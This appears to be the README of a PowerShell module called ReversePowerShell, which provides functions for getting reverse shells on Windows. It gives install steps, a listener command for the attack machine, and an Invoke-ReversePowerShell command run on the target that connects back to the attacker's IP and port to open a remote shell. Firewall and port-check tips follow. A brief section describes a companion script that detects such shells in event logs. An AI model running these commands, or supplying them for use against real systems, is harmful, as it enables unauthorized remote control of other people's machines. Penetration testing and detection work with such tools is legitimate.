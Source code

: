 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell.

#### BLUE TEAM DISCOVERY 
Find-ReverseShell.psm1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### INSTALL THE MODULE
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 'C:\Users\<username>\Documents\WindowsPowerShell\Modules\ReversePowerShell'

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```
---
#### FIREWALL
If you are not able to gain a connection it is most likely due to the Windows Firewall. 

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```

